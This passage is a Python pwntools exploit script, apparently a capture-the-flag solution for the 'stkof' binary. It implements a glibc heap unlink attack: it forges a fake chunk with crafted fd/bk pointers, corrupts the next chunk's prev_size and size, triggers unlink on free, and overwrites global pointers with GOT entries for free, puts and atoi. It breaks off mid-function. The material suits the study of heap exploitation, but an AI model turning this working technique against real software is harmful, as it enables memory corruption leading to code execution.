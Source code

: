 ```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
```
